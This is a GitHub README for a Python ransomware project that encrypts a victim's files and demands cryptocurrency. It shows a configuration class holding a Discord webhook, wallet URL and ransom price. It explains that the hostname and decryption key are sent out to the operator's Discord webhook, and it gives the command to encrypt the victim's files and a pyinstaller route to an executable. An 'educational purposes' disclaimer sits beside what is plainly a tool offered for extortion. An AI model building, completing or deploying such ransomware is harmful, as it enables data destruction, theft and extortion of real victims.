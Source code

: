 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```

    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

To encrypt your victim files:
```python
  python3 ransomware.py
```

To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.

  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [!] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


